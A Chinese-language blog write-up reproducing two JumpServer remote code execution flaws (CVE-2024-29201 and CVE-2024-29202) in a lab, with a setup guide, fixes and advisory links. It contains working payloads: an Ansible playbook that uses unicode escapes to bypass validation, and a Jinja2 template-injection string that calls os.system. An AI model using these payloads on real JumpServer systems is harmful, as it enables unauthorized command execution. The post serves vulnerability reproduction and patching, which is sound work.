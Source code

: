 ```yaml
---
title: JumpServer 漏洞复现 (CVE-2024-29201&CVE-2024-29202)
url: https://wh0am1i.com/2024/03/30/JumpServer-CVE-2024-29201-CVE-2024-29202/
clipped_at: 2024-04-01 16:10:47
category: default
tags: 
 - wh0am1i.com
---
```


# [](#JumpServer-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0-CVE-2024-29201-CVE-2024-29202 "JumpServer 漏洞复现(CVE-2024-29201&CVE-2024-29202)")JumpServer 漏洞复现 (CVE-2024-29201&CVE-2024-29202)

### [](#0x01-%E7%AE%80%E4%BB%8B "0x01 简介")0x01 简介

JumpServer 是广受欢迎的开源堡垒机，是符合 4A 规范的专业运维安全审计系统。

### [](#0x02-%E6%BC%8F%E6%B4%9E%E6%A6%82%E8%BF%B0 "0x02 漏洞概述")0x02 漏洞概述

CVE-2024-29201 远程代码执行漏洞，该漏洞可绕过 JumpServer 的 Ansible 中的输入验证机制，在 Celery 容器中执行任意代码  
CVE-2024-29202 Jinin2 模板注入漏洞，该漏洞是有 JumpServer 的 Ansible 中存在 Jinja2 模板注入，在 Celery 容器中执行任意代码。  
值的注意的是：**两个漏洞利用的条件都需要账号且至少有一个资产**。

### [](#0x03-%E5%BD%B1%E5%93%8D%E7%89%88%E6%9C%AC "0x03 影响版本")0x03 影响版本

v3.0.0 <= JumpServer <= v3.10.6

### [](#0x04-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA "0x04 环境搭建")0x04 环境搭建

首先下载官方提供的[脚本](https://resource.fit2cloud.com/jumpserver/jumpserver/releases/latest/download/quick_start.sh)，下载后编辑 `quick_start.sh`，将脚本中的 `VERSION` 修改为存在漏洞版本，如：`V3.10.6`。如下图所示：  
[![](assets/1711959047-c8322b7c38153e72aa5fecf98268f3ef.png)](https://images.wh0am1i.com/-5gfkg2cynB)

等待服务启动，启动完成后访问 [http://ip/](http://ip/)  
[![](assets/1711959047-d1f934100321e70a14b10c81fde01b6b.png)](https://images.wh0am1i.com/-EMoYEnoPo5)

JumpServer 默认账号密码为 `admin/admin`

接着进入后台添加资产，具体步骤如下图所示：  
[![](assets/1711959047-f50c018e0e95ca06d38119050e1c7db9.png)](https://images.wh0am1i.com/-HZFtCh4oe6)

添加资产后需要测试是否添加成功，点击资产后面的 `更多-测试` 进行测试。

资产添加完成后添加用户，如下图所示：  
[![](assets/1711959047-f50c018e0e95ca06d38119050e1c7db9.png)](https://images.wh0am1i.com/-HZFtCh4oe6)

最后为用户分配一个资产，如下图所示：  
[![](assets/1711959047-106b7415dfef53d7171392aae40281a1.png)](https://images.wh0am1i.com/-atVy9Rwxaf)

至此环境搭建完成。

### [](#0x05-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0 "0x05 漏洞复现")0x05 漏洞复现

#### [](#CVE-2024-29201 "CVE-2024-29201")CVE-2024-29201

登陆创建的普通用户账号，进入 `作业中心-模板管理` 添加一个 `Playbook`  
[![](assets/1711959047-94fb43036185135d93519bde3c32aa72.png)](https://images.wh0am1i.com/-zZJSuWtH9R)

点击创建的 `Playbook` 名称，切换到 `工作空间`，输入以下内容：

```tools
plaintext
```

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>``` | ```plain<br>[{<br>     "name": "RCE playbook",<br>     "hosts": "all",<br>     "tasks": [<br>       {<br>         "name": "this runs in Celery container",<br>         "shell": "id > /tmp/pwnd",<br>         "\u0064elegate_to": "localhost"<br>} ],<br>     "vars": {<br>     "ansible_\u0063onnection": "local"<br>     }<br>}]<br>``` |

[![](assets/1711959047-eb2ecbd7cc49cc7307c0e3580f5595eb.png)](https://images.wh0am1i.com/-L4NQ8HeAsH)

点击保存。保存完成之后切换到 `作业管理` 页面，创建一个新的 `Playbook` 作业  
[![](assets/1711959047-56a8545c5095e52c9f74d87b7c14ed4a.png)](https://images.wh0am1i.com/-gsaUh5x97Y)

`playbook` 作业详情如下：  
[![](assets/1711959047-7775dfe4cf16cbc957904f88feb71714.png)](https://images.wh0am1i.com/-ZkvUZAW2rE)

点击保存并运行作业  
[![](assets/1711959047-c901a22f02a0c2839e03637237ed9cc4.png)](https://images.wh0am1i.com/-RvvbH9ehui)  
运行结果如下：  
[![](assets/1711959047-45cc3d62af66ecd90f9aacb41f7b5e9c.png)](https://images.wh0am1i.com/-bDWZ69Nas8)

进入 Celery 容器，查看 tmp 目录下是否存在 `pwnd` 文件  
[![](assets/1711959047-0c427e2b6a677622f569f4f751c9b0ff.png)](https://images.wh0am1i.com/-AaKsMPSnpm)

#### [](#CVE-2024-29202 "CVE-2024-29202")CVE-2024-29202

与 CVE-2024-29201 类似，进入 `作业中心-模板管理` 添加一个 `Playbook`，在 `工作空间` 输入的内容为：

```tools
plaintext
```

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```plain<br>- name: \|<br>       {% for x in ().__class__.__base__.__subclasses__() %}<br>         {% if "warning" in x.__name__ %}<br>           {{<br>             x()._module.__builtins__["__import__"]("os").system("id > /tmp/pwnd2")<br>           }}<br>         {%endif%}<br>       {%endfor%}<br>``` |

添加完成后，同样进入作业管理页面创建并运行 `Playbook` 作业。运行结果如下：  
[![](assets/1711959047-39f7c5b5876d25a1e69e927396ca8759.png)](https://images.wh0am1i.com/-Fe6jbZnGLk)

进入 Celery 容器，查看 tmp 目录下是否存在 `pwnd2` 文件  
[![](assets/1711959047-df52ddc27247d7da806996452d585f12.png)](https://images.wh0am1i.com/-EbidEn8Tyd)

### [](#0x06-%E4%BF%AE%E5%A4%8D%E6%96%B9%E5%BC%8F "0x06 修复方式")0x06 修复方式

1.  升级到 v3.10.7 版本
2.  关闭任务中心，任务中心位于：系统设置 - 功能设置 - 任务中心

### [](#0x06-%E5%8F%82%E8%80%83%E9%93%BE%E6%8E%A5%EF%BC%9A "0x06 参考链接：")0x06 参考链接：

[https://github.com/jumpserver/jumpserver/security/advisories/GHSA-pjpp-cm9x-6rwj](https://github.com/jumpserver/jumpserver/security/advisories/GHSA-pjpp-cm9x-6rwj)  
[https://github.com/jumpserver/jumpserver/security/advisories/GHSA-2vvr-vmvx-73ch](https://github.com/jumpserver/jumpserver/security/advisories/GHSA-2vvr-vmvx-73ch)
